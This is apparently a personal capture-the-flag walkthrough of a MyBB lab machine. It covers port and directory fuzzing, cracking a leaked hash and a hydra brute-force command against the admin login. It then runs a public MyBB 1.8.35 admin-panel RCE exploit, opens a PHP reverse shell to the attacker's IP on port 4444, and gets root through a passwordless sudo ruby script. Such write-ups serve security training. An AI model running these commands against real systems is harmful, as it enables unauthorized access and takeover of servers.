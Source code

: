 ```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](Pasted image 20241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](Pasted image 20241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](Pasted image 20241029143334.png)

Let's go to the forum:

![](Pasted image 20241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](Pasted image 20241029143517.png)

![](Pasted image 20241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](Pasted image 20241029143732.png)
We can see we only have the admin user registered, 


![](Pasted image 20241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](Pasted image 20241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](Pasted image 20241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](Pasted image 20241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](Pasted image 20241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](Pasted image 20241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](Pasted image 20241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](Pasted image 20241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](Pasted image 20241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](Pasted image 20241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](Pasted image 20241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](Pasted image 20241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](Pasted image 20241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](Pasted image 20241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](Pasted image 20241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](Pasted image 20241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](Pasted image 20241029152250.png)


```

And just like that, the CTF is done!